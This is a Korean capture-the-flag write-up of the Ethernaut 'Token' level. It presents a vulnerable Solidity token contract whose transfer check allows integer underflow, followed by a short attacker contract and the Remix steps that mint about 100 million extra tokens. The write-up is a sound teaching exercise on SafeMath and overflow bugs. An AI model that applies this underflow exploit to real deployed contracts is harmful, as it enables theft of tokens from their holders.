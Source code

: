 문제 해설에 들어가기 전, 이번 포스팅은 이더넛 내에서 콘솔창과 상호작용을 할 줄 알고 기본적인 리믹스 및 메타마스크 사용법이 숙지되어 있다는 가정 하에 해설을 진행합니다.



## Token Problem

당신에게는 20개의 토큰이 주어지며, 추가적으로 토큰을 얻을 수 있다면 이번 레벨을 통과할 수 있습니다. 되도록이면, 매우 많은 양의 토큰이면 좋겠습니다.

이번 문제는 스마트컨트랙트의 취약점을 공부해본 사람이라면 간단하게 해결할 수 있다. 스마트컨트랙트로 코드를 작서할때 반드시 고려해야 할 Over/Under Flows 이슈가 이번 문제의 핵심 개념이다. 스마트컨트랙트에 사칙연산에 관한 코드가 있을 경우, Safemath라이브러리를 import하여 사용하길 권고하는데, 사용하지 않을경우 어떤 문제가 있는지 이번 문제에서 경험해보자!



### 코드 분석

```javascript
pragma solidity ^0.4.18;

contract Token {

  mapping(address => uint) balances;	// 주소에 balances를 값으로 맵핑시켰다.
  uint public totalSupply;

  function Token(uint _initialSupply) public {	// 생성자로, 초기량이 총 공급량이다.
    balances[msg.sender] = totalSupply = _initialSupply;
  }
  /// 토큰을 전송하는 함수
  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);	// _value가 초기량보다 크지 않아야한다.
    balances[msg.sender] -= _value;	// 전송량(value) 만큼 총량에서 뺀다.
    balances[_to] += _value;	// 수신자의 balance는 전송량 만큼 더한다/
    return true;
  }
  /// 주소를 넣으면 해당주소의 얼마만큼의 balance(토큰량)이 있는지 조회하는 함수
  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

코드의 주석 부분에 코드에 대한 설명을 적어두었다. Over/Under Flows이슈 외에 취약점이 위 코드에 있다. 저번 문제의 msg.sender의 개념을 상기시키면서 코드의 취약점이 무엇인지 생각해보자!

위 코드는 검증과정에서 msg.sender의 balance 값으로만 검사를 하기 때문에 저번 단계 문제처럼 다른 컨트랙트에서 악의적인 목적을 가진 컨트랙트를 만들고 UnderFlow를 활용하여 초기 발행량보다 더 많은 토큰을 전송할 수 있다. 공격자의 코드는 아래와 같다.



**Hack.sol**

```
contract Hack {
    Token token;	// Instance Address 를 가져오기 위한 변수
    
    function Hack (address _address) public { // 생성자로 Instance Address 설정
        token = Token(_address);
    }
    /// 공격기능을 수행할 함수
    function Attack (address _to, uint _value) public returns(bool) {
        return token.transfer(_to, _value);
    }
}
```

리믹스에서 Instance Address를 불러 get 함수( totalSupply, balanceOf )로 주어진 조건을 확인하면, balanceOf에 나의 EOA 주소를 기입하면 초기 지급된 20개의 토큰과 totalSupply 2100만개를 확인할 수 있다.

공격자의 코드를 컴파일하고 생성자에 Instance Address를 넣어 배포한후 아래와 같은 공격행위를 진행하자.

![token image](https://github.com/heuristicwave/TIL-about-Blockchain/blob/master/img/token02.png?raw=true)

왼쪽사진처럼 _to에 토큰을 받을 나의 계정주소 _value에 적당히 큰 값(필자의 경우 1억개를 기입했다.)을 넣고 트랜잭션을 발생시킨다음 balanceOf함수로 Hack 컨트랙트의 CA주소를 확인하면 Underflow가 발생 했다는 것을 확인 할 수 있고, 나의 주소를 확인해보면 1억 20개가 지급된것을 확인할 수 있다. 이로서 이번단계를 해결 할 수 있었다.

스마트컨트랙트의 취약점인 Over/Under Flows 문제를 무시하고 코드를 작성한다면, 위와 같은 개발자의 의도와는 다른 방향으로 수많은 양의 토큰이 발급될 수 있다. 항상 숫자와 관련된 코드를 작성할땐 안전하게 코드를 작성하였는지 확인해보자!



그럼, 다음번에는 6단계 Delegation에서 만나요! 